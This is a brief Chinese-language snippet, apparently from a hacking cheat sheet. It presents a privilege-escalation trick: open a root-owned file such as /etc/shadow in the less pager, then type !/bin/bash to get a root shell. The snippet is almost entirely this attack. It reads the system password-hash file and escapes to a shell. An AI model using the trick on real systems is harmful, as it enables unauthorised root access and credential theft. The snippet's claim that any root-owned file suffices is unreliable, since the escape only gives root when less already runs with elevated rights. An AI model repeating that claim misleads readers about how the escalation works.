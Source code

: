 
```
# 任意找一个所有者为 root 账户的文件，例如/etc/shadow
less /etc/shadow

# 然后输入↓即可获得一个 root 权限的 shell
!/bin/bash

```
![](https://i.loli.net/2020/05/03/ec7m54y6TwogsGl.png)
